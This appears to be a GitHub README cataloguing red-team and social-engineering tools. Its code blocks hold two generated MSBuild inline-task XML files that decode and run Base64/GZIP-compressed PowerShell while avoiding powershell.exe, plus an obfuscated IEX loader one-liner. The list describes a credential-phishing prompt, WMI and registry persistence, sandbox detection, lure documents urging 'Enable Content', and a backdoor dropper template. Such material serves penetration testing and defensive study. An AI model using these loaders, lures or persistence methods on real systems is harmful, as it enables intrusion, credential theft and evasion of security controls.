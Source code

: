 ## Red Teaming and Social-Engineering related scripts, tools and CheatSheets


- **`Macro-Less-Cheatsheet.md`** - Macro-Less Code Execution in MS Office via DDE (Dynamic Data Exchange) techniques Cheat-Sheet ([gist](https://gist.github.com/mgeeky/981213b4c73093706fc2446deaa5f0c5))


- **`generateMSBuildPowershellXML.py`** - Powershell via MSBuild inline-task XML payload generation script - To be used during Red-Team assignments to launch Powershell payloads without using `powershell.exe` ([gist](https://gist.github.com/mgeeky/df9f313cfe468e56c59268b958319bcb))

    Example output **not minimized**:
    
    ```
C:\Users\IEUser\Desktop\files\video>python generateMSBuildPowershellXML.py     Show-Msgbox.ps1

        :: Powershell via MSBuild inline-task XML payload generation script
        To be used during Red-Team assignments to launch Powershell payloads without     using 'powershell.exe'
        Mariusz B. / mgeeky, <mb@binary-offensive.com>

[?] File not recognized as PE/EXE.

------------------------------------------------------------------------------------
<Project xmlns="http://schemas.microsoft.com/developer/msbuild/2003">

  <!--  Based on Casey Smith work, Twitter: @subTee                              -->
  <!--  Automatically generated using `generateMSBuildPowershellXML.py` utility  -->
  <!--  by Mariusz B. / mgeeky <mb@binary-offensive.com>                         -->

  <Target Name="btLDoraXcZV">
    <hwiJYmWvD />
  </Target>
  <UsingTask TaskName="hwiJYmWvD" TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v    4.0.dll" >
    <Task>
    <Reference Include="System.Management.Automation" />
      <Code Type="Class" Language="cs">
        <![CDATA[
            using System.Management.Automation;
            using System.Management.Automation.Runspaces;
            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;

            public class hwiJYmWvD : Task {
                public override bool Execute() {

                    byte[] payload = System.Convert.FromBase64String("JHMgPSBOZXctT2JqZ    WN0IElPLk1lbW9yeVN0cmVhbSgsIFtDb252ZXJ0XTo6RnJvbUJhc2U2NFN0cmluZygn    SDRzSUFJOUxjbG9DLzN1L2UzOTBjR1Z4U1dxdVhsQnFXazVxY2tsbWZwNmVZM0Z4YW0    1U1RtV3NsWlZQZm1KS2VHWkpSa0JpVVVsbVlvNWZZbTZxaGhKVVIzaG1Ya3ArZWJHZV    czNVJickdTcGtLTmduOXBpYTVmYVU2T05TOVhORFpGZXI2cHhjV0o2YWxPK1JWQXM0T    Xo4c3MxMUQxTEZNcnppN0tMRmRVMXJRRk9mWFlmandBQUFBPT0nKSk7IElFWCAoTmV3    LU9iamVjdCBJTy5TdHJlYW1SZWFkZXIoTmV3LU9iamVjdCBJTy5Db21wcmVzc2lvbi5    HemlwU3RyZWFtKCRzLCBbSU8uQ29tcHJlc3Npb24uQ29tcHJlc3Npb25Nb    2RlXTo6RGVjb21wcmVzcykpKS5SZWFkVG9FbmQoKTs=");
                    string decoded = System.Text.Encoding.UTF8.GetString(payload);

                    Runspace runspace = RunspaceFactory.CreateRunspace();
                    runspace.Open();

                    Pipeline pipeline = runspace.CreatePipeline();
                    pipeline.Commands.AddScript(decoded);
                    pipeline.Invoke();

                    runspace.Close();
                    return true;
                }
            }
        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
------------------------------------------------------------------------------------
    ```
    
    **minimized**
    
    ```
C:\Users\IEUser\Desktop\files\video>python generateMSBuildPowershellXML.py     Show-Msgbox.ps1 -m                     
                                                                                                                  
        :: Powershell via MSBuild inline-task XML payload generation     script                                       
        To be used during Red-Team assignments to launch Powershell payloads without     using 'powershell.exe'       
        Mariusz B. / mgeeky, <mb@binary-offensive.com>                                                                
                                                                                                                  
[?] File not recognized as PE/EXE.                                                                                    
                                                                                                                  
------------------------------------------------------------------------------------                                  
<Project xmlns="http://schemas.microsoft.com/developer/msbuild/2003"><Target     Name="mYOYInAFWE"><DpaYaokgauWBJbe />
</Target><UsingTask TaskName="DpaYaokgauWBJbe" TaskFactory="CodeTaskFactory"     AssemblyFile="C:\Windows\Microsoft.Ne
t\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll"><Task><Reference     Include="System.Management.Automation" /><
Code Type="Class" Language="cs"><![CDATA[using System.Management.Automation;using     System.Management.Automation.Run
spaces;using Microsoft.Build.Framework;using Microsoft.Build.Utilities;public class     DpaYaokgauWBJbe:Task{public ov
erride bool Execute(){byte[]    x=System.Convert.FromBase64String("JHMgPSBOZXctT2JqZWN0IElPLk1lbW9yeVN0cmVhbSgsIFtDb25
2ZXJ0XTo6RnJvbUJhc2U2NFN0cmluZygnSDRzSUFMQkxjbG9DLzN1L2UzOTBjR1Z4U1dxdVhsQnFXazVxY2tsbW    ZwNmVZM0Z4YW01U1RtV3NsWlZQZ
m1KS2VHWkpSa0JpVVVsbVlvNWZZbTZxaGhKVVIzaG1Ya3ArZWJHZVczNVJickdTcGtLTmduOXBpYTVmYVU2T05T    OVhORFpGZXI2cHhjV0o2YWxPK1J
WQXM0TXo4c3MxMUQxTEZNcnppN0tMRmRVMXJRRk9mWFlmandBQUFBPT0nKSk7IElFWCAoTmV3LU9iamVjdCBJTy    5TdHJlYW1SZWFkZXIoTmV3LU9ia
mVjdCBJTy5Db21wcmVzc2lvbi5HemlwU3RyZWFtKCRzLCBbSU8uQ29tcHJlc3Npb24uQ29tcHJlc3Npb25Nb2Rl    XTo6RGVjb21wcmVzcykpKS5SZWF
kVG9FbmQoKTs=");string d=System.Text.Encoding.UTF8.GetString(x);Runspace     r=RunspaceFactory.CreateRunspace();r.Open
();Pipeline p=r.CreatePipeline();p.Commands.AddScript(d);p.Invoke();r.Close();return     true;}}]]></Code></Task></Usi
ngTask></Project>                                                                                                     
------------------------------------------------------------------------------------                              
    ```


- **`msbuild-powershell-msgbox.xml`** - Example of Powershell execution via MSBuild inline task XML file. On a simple Message-Box script.
 ([gist](https://gist.github.com/mgeeky/617c54a23f0c4e99e6f475e6af070810))


- **`compressedPowershell.py`** - Creates a Powershell snippet containing GZIP-Compressed payload that will get decompressed and executed (IEX)
. ([gist](https://gist.github.com/mgeeky/e30ceecc2082a11b99c7b24b42bd77fc))

    Example:

    ```
$s = New-Object IO.MemoryStream(, [Convert]::FromBase64String('H4sIAMkfcloC/3u/e390cGVxSWquXlBqWk5qcklmfp6eY3Fxam5STmWslZVPfmJKeGZJRkBiUUlmYo5fYm6qhhJUR3hmXkp+ebGeW35RbrGSpkKNgn9pia5faU6ONS9XNDZFer6pxcWJ6alO+RVAs4Mz8ss11D1LFMrzi7KLFdU1rQFOfXYfjwAAAA=='));
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s, [IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
    ```


- **`muti-stage-1.md`** - Multi-Stage Penetration-Testing / Red Teaming Malicious Word document creation process. ([gist](https://gist.github.com/mgeeky/6097ea56e0f541aa7d98161e2aa76dfb))

- **`macro-psh-stdin-author.vbs`** - VBS Social Engineering Macro with Powershell invocation taking arguments from Author property and feeding them to StdIn. ([gist](https://gist.github.com/mgeeky/50c4b7fa22d930a80247fea62755fbd3))

- **`Invoke-Command-Cred-Example.ps1`** - Example of using PSRemoting with credentials passed directly from command line. ([gist](https://gist.github.com/mgeeky/de4ecf952ddce774d241b85cfbf97faf))

- **`Phish-Creds.ps1`** - Powershell oneline Credentials Phisher - to be used in malicious Word Macros/VBA/HTA or other RCE commands on seized machine. ([gist](https://gist.github.com/mgeeky/a404d7f23c85954650d686bb3f02abaf))

    One can additionally add, right after `Get-Credential` following parameters that could improve pretext's quality during social engineering attempt:
    - `-Credential domain\username` - when we know our victim's domain and/or username - we can supply this info to the dialog
    - `-Message "Some luring sentence"` - to include some luring message


- **`vba-windows-persistence.vbs`** - VBA Script implementing two windows persistence methods - via WMI EventFilter object and via simple Registry Run. ([gist](https://gist.github.com/mgeeky/07ffbd9dbb64c80afe05fb45a0f66f81))

- **`set-handler.rc`** - Quickly set metasploit's multi-handler + web_delivery (separated) handler for use with powershell. ([gist](https://gist.github.com/mgeeky/bf4d732aa6e602ca9b77d089fd3ea7c9))

- **`delete-warning-div-macro.vbs`** - VBA Macro function to be used as a Social Engineering trick removing "Enable Content" warning message as the topmost floating text box with given name. ([gist](https://gist.github.com/mgeeky/9cb6acdec31c8a70cc037c84c77a359c))

- **`vba-macro-mac-persistence.vbs`** - (WIP) Working on VBA-based MacPersistance functionality for MS Office for Mac Macros. ([gist](https://gist.github.com/mgeeky/dd184e7f50dfab5ac97b4855f23952bc))

- **`WMIPersistence.vbs`** - Visual Basic Script implementing WMI Persistence method (as implemented in SEADADDY malware and further documented by Matt Graeber) to make the Macro code schedule malware startup after roughly 3 minutes since system gets up. ([gist](https://gist.github.com/mgeeky/d00ba855d2af73fd8d7446df0f64c25a))

- **`MacroDetectSandbox.vbs`** - Visual Basic script responsible for detecting Sandbox environments, as presented in modern Trojan Droppers implemented in Macros. ([gist](https://gist.github.com/mgeeky/61e4dfe305ab719e9874ca442779a91d))

- **`Various-Macro-Based-RCEs.md`** - Various Visual Basic Macros-based Remote Code Execution techniques to get your meterpreter invoked on the infected machine. ([gist](https://gist.github.com/mgeeky/61e4dfe305ab719e9874ca442779a91d))

- **`SubstitutePageMacro.vbs`** - This is a template for the Malicious Macros that would like to substitute primary contents of the document (like luring/fake warnings to "Enable Content") and replace document's contents with what is inside of an AutoText named `RealDoc` (configured via variable `autoTextTemplateName` ). ([gist](https://gist.github.com/mgeeky/3c705560c5041ab20c62f41e917616e6))

- **`warnings\EN-Word.docx`** and **`warnings\EN-Excel.docx`**  - Set of ready-to-use Microsoft Office Word shapes that can be pasted / inserted into malicious documents for enticing user into clicking "Enable Editing" and "Enable Content" buttons.

- **`backdoor-drop.js`** - Internet Explorer - JavaScript trojan/backdoor dropper template, to be used during Penetration Testing assessments. ([gist](https://gist.github.com/mgeeky/b0aed7c1e510560db50f96604b150dac))

